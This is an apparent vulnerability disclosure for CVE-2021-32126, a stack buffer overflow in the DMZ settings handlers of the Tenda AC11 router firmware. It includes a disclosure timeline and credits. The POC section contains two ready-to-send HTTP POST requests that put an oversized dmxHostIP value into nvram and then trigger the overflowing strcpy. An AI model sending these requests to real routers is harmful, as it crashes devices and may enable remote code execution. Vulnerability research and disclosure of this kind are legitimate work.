


# Tenda Router AC11 Vulnerability

This vulnerability lies in the `/goform/set_dmz_ipaddr` page which influences the lastest version of Tenda Router AC11. (FYI, lastest version of this product is [AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html))

## Vulnerability description

There is a stack buffer overflow vulnerability in function `sub_800BEE2C` (page `/goform/set_dmz_ipaddr`).

This function uses `strcpy` to copy the string pointed by `v4` into a stack buffer pointed by `v5`. `v4` is directly retrived from the nvram variable `dmz_ipaddr` without any security check.



the `dmz_ipaddr` variable can be controlled by attacker by calling the function `sub_800CB588`(page `/goform/set_dmz_hostip`) which gets in a parameter called `dmxHostIP` into varialbe `v9`, which can then be used to assign to the `dmz_ipaddr` variable.

Then there exists a path that we can set `v15` to `dmz_ipaddr` and `v14` to the content of retrived `dmxHostIP` value, which can be controlled by attacker, before callint the `nvram_set(v15,v14)` function.



So by first setting the `dmxHostIP` and then requesting the page `/goform/set_dmz_ipaddr`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

The second request should pass another variable called `dmzEn` and sets its value to `true` in order to guide the execution flow into the `else-branch` of the outer `if` statement. The inner `if` do not need special care, which can be passed silently.

## POC

```plain
POST /goform/set_dmz_hostip HTTP/1.1
Host: 192.168.0.1
Content-Length: 1043
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&dmxHostIP=127.0.0.111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&dmzEn=true&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true
```

```plain
POST /goform/set_dmz_ipaddr HTTP/1.1
Host: 192.168.0.1
Content-Length: 103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

## Timeline

- 2021.04.21 report to CVE & CNVD
- 2021.05.02 CNVD ID assigned: CNVD-2021-32414
- 2021.07.19 Tenda claim to have fixed this issue
- 2021.10.12 CVE ID assigned: CVE-2021-32126

## CVE ID

CVE-2021-32126

## Acknowledgment

Credit to [@Ainevsia](https://github.com/Ainevsia), [@1chig0](https://github.com/1chig0) and [@peanuts](https://github.com/peanuts62) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.
